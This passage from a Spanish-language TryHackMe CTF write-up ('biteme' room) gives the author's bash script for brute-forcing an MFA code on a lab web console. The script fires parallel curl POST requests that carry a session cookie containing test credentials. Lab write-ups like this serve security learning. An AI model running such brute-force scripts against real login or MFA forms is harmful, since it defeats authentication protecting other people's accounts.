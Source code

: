 Ahora para hacer el brute forcing Burp Suite va a tardar demasiado y tuve problemas con hydra así que usé el siguiente script:

```bash
#!/bin/bash

TARGET="http://10.10.56.136/console/mfa.php"
COOKIE="PHPSESSID=38foerd2ev0ekkvib75uv13484; user=jason_test_account; pwd=braggy"
WORDLIST="MFA.txt"
THREADS=25  # Puedes subirlo si el servidor aguanta

echo "[+] Bruteforce iniciado... solo se mostrará el código correcto."

cat "$WORDLIST" | xargs -P "$THREADS" -I {} bash -c '
  CODE={}
  RESPONSE=$(curl -s -X POST "'"$TARGET"'" \
    -d "code=$CODE" \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "Cookie: '"$COOKIE"'" \
    -H "Referer: '"$TARGET"'" \
    -H "User-Agent: Mozilla/5.0")

  if ! echo "$RESPONSE" | grep -q "Incorrect code"; then
    echo "[✔] Código correcto encontrado: $CODE"
    pkill -P $$ curl 2>/dev/null
    kill $$ 2>/dev/null
  fi
'
```

![alt text](/assets/img/writeups/tryhackme/biteme/image-11.png)

## Panel de archivos

![alt text](/assets/img/writeups/tryhackme/biteme/image-12.png)
